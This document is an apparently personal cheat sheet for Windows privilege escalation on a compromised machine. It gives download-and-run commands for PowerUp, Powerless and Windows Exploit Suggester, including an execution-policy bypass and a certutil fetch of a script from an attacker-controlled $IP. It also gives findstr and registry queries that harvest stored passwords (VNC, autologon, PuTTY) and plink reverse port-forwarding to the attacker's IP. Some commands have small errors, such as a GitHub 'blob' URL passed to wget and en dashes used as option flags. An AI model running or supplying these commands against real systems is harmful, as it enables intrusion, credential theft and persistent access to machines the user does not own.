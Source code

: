 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python3 windows-exploit-suggester.py --update`
   - `python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
   - Grep 'Elevation' `./windows-exploit-suggester.py –database 2015-09-22-mssb.xlsx –systeminfo systeminfo_1.txt | grep 'Elevation'`

- Search for passwords 

  - In Files

    ```
      findstr /si password *.txt
      findstr /si password *.xml
      findstr /si password *.ini

      #Find all those strings in config files.
      dir /s *pass* == *cred* == *vnc* == *.config*

      # Find all passwords in all files.
      findstr /spin "password" *.*
      findstr /spin "password" *.*
    ```
    
  - In Registry
  
    ```
    # VNC
    reg query "HKCU\Software\ORL\WinVNC3\Password"

    # Windows autologin
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

    # SNMP Paramters
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

    # Putty
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

    # Search for password in registry
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

    ```
    
- Enumerate Local Services
  - `netstat -ano`
  - Look for LISTENING/LISTEN. Compare that to the scan you did from the outside. Does it contain any ports that are not accessible from the outside? If that is the case, maybe you can make a remote forward to access it.
  
   plink32.exe -ssh -l <MYUSERNAME> -pw <MYPASSWORD> -R <MYIP>:<MYPORT>:127.0.0.1:8090 <MYIP>
   
    ```
      # Port forward using plink
      plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
    ```
    
    [plink.exe binaries](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

